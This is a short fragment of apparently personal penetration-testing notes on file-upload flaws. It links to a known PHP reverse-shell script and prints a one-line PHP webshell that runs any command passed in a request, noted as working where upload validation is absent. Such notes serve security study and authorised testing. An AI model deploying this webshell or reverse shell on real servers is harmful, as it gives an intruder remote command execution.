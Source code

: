 * php reverse shell
    * https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
# <span style=color:red>Absent Validation</span>
* If the page could not run PHP payload, we would see our source code printed on the page
```php
//webshell
<?php system($_REQUEST['cmd']);?>
```

---
